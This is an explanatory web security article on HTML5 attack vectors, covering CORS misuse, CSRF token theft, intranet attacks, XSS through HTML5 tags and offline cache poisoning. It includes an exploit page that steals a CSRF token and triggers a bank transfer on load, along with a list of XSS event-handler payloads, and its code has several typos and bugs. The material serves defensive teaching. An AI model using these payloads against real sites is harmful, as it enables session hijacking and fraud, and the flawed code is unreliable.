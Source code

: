 HTML5 Attacks – Common/Uncommon Attack Vectors
----------------------------------------------

HTML5 has been already known for several years. It is one of the key technologies in the Internet. Most websites, transmitting video, slowly give up Adobe Flash technology and switch to HTML5. The fact is that HTML5 is still being developed, and yet it is already used by most websites, mobile applications and IoT. 

All the latest versions of browsers already offer full support for HTML5, and thus created all the time new improvements to the language itself. All these functions are designed in such a way as to facilitate the handling of multimedia and graphical content without having to use any third-party plug-ins or API. The purpose of this article is to introduce to the few attacks on HTML5 and demonstrate how a hacker can quickly take control of your browser.

CORS (Cross Origin Resource Sharing) Attacks
----------------------------------------------

HTML5 must meet the growing needs of developers who want to create high-quality site. At the same time HTML5 has to get rid of some restrictions which were introduced earlier by SOP (Same Origin Policy). Same Origin Policy allowed scripts that come from one place to communicate with each other and benefit from their common methods, but made it impossible to access scripts from different locations. 

Now, to meet all the demands of developers, HTML5 has to break all the restrictions. For example, now Ajax requests can come from different domains and be carried out in various domains. SOP had a limit, consisting in the fact that both the website and scripts on the executed had come from the same domain. Now, without the SOP, a malicious Web page can load any information from any domain using the credentials of the victim and sending this data between multiple domains.

What does it mean? So long as the Website, let's call it Website A, can exchange data with another website, Website B, Website B can read all the data from the site Website A. This was possible by creating an exploit, using HTTP tunnel and a simple tool called Shell of the Future. The tool is based on the simple principle that if a party has an XSS vulnerability and JavaScript code can be executed, than innocent user can by clicking on infected link perform so called Cross Origin Requests. If the tool is used in the correct manner, the attacker can view the sessions of its victims and direct requests to the server, pretending to be the victim. Shell of the Future is a subject for a different article and will not be discussed here.

The fact is that you can takeover a session of any user using XSS vulnerability. This is possible only thanks to the COR support of HTML5 and it allows some tunneled connections. 


But my site is secure, I am using CSRF tokens …
----------------------------------------------

HTML5 allows to steal CSRF tokens. For example, if the token goes in the URL, or the GET request, you can safely steal CSRF tokens, and this is consistent with the definition of CORS. An attacker could freely use CSRF token and the user will not even notice. To carry out this attack, attribute "withCredentials" has to be set to true and Access-Control-Allow-Origin to '*'. Let's see how it can be used.

Suppose that your website has CSRF protection, and the token is sent GET request. Now the attacker sends a link to the user together with a valid CSRF token and a link to controlled site. The attacker can now be mediated by the Ajax request in the communication between a bank customer and the bank. Below exploit code that could be used


[exp1.html](exp1.html)

    <script>
    function exploit()
    {
      var xmlhttp;
      if(window.XMLHttpRequest)
      {
        xmlhttp=new XMLHttpRequest();
      }
      else
      {
      xlmlhttp=new ActiveXObject(“Microsof.XMLHTTP”);
      }
    
    xmlhttp.open(“GET”,”http://localhost/myBank/transfer.hmlt”,false);
    xmlhttp.send();
    if(xmlhttp.status=200)
    {
      var str=xmlhttp.responseText;
      var n=str.search(“csrfToken”);
      var final=str.substring(n+18,n+28);
      var url = “http://loclhost/myBank/TransferFund.html?datum1%2F=06-06-2013&amp;Account=1234&amo;csrfToken=” + escape(final);
      xmlhttp.open(“GET”, url, true);
      xmlhttp.send();
    }
    
    }
    </script>
    </head>
    <body onload=”exploit();”>
    </body>


Getting inside Intranet
-----------------------

Many companies have internal sites, which are used for employees. They are usually Intranet applications and are not available on the Web. Because it is a lot of them and they are used by employees in their daily work, they must work together. Unfortunately, most developers sets the header Access-Control-Allow-Origin: * and allows to carry out the CORS attack. It can be really well used by the attacker, who probably will use social engineering and compel employees to click on a suspicious link, and then in a very easy way to attack the internal enterprise applications. Here is an example of such an attack.

1. The internal corporate employee logs on to the intranet.
2. The server returns a response containing the Access-Control-Allow-Origin: * because it communicates well with other applications in the company.
3. The employee receives an e-mail that contains a link to the page with great graphics SVG. Each of these images contain hidden JavaScript code that will run when it is displayed. This is discussed in a separate article.
4. Code JavaScript XMLHttpRequest send silently in the background and waits for a response. This can be done because the appropriate headers are set to be (X-XSS-Protection: 1; Access-Control-Allow-Origin: *).
5. JavaScript analyzes the answers and sends back to the attacker's servers. Virus checking and other control measures have been omitted. We will show how to use this feature soon.
6. We are in the company and act as an employee, and no one will know what happened.

The new vectors of attack XSS in HTML5
-----------------------

Developers in every company will develop their own filters to block XSS attacks on websites. Most of these models on a few simple examples of OWASP. However, HTML5 introduced a tremendous amount of tags to enable support for audio and video. Below are some possible attack vectors that are used virtually every day.

[exp2.html](exp2.html)


    <video> <source onerror=”javascript:alert(1)”>
    <vide onerror=”javascript:alert(1)”><source>
    <audio onerror=”javascript:alert(1)”><source>
    <input autofocus onfocus=alert(1)>
    <select autofocus onfocus=alert(1)>
    <textarea autofocus onfocus=alert(1)>
    <keygen autofocus onfocus=alert(1)>
    <button form=test onformchange=alert(2)>X
    <form><button formaction=”javascript:alert(1)”>

Darknet Technique: Offline Web Application Cache Poisoning
----------------------------------------------------------

There is a certain functionality of most web browsers, called an offline cache processing. The functionality has been implemented by most browsers. The functionality is based on the fact that the application can process the contents of the page, even when you use it offline. The main problem of this feature is that an attack "cache poisoning" can be performed using this feature. If an attacker manages to replace at least one file of the site, it has full control over the user account. This can be done eg. using SVG file. You know what is the difference between HTML4 and HTML5? HTML5 essentially does not allow to cache all the files, but it allows you to cache specific files. Using this function, the attacker can steal login details belonging to any user. The following is a sample scenario of attack.

1. The user connects to an unsecured WiFi network at the mall and browse to a page, for example Facebook.
2. A hacker responds to this request by displaying the iframe Facebook login page, the user's browser automatically sends a request to the Facebook page. Login page to Facebook can be replaced by any application, including banking application.
3. Because the network is controlled by a hacker, the user will see a normal login page, but inside will be located additional JavaScript code. In addition, the page contains the appropriate tags, which require her to cache the user's system, so the page is already cached in the browser cache.
4. The sacrifice of a few hours, days, etc etc, it connects to the selected web page, in this case Facebook, but Facebook login page was buffered in a user's system. A page exactly substituted by hackers was buffered in a user's system.
5. The sacrifice is part of the link, and the browser loads a fake site from the cache.
6. The victim introduces credentials that are transported to the attacker. By the way, an attacker can mediate communication between Facebook and the innocent victim.

So through cache poisoning, the attacker can steal user's credentials. 


Summary
-------

Most of these tricks usually are not used or tested against, making it easier for Cybercriminals.

Please make sure you test your website for this problems.


References:

http://resources.infosecinstitute.com/demystifying-html-5-attacks/


http://silenceonthewire.pl/index.php/ataki-na-html5-wprowadzenie/



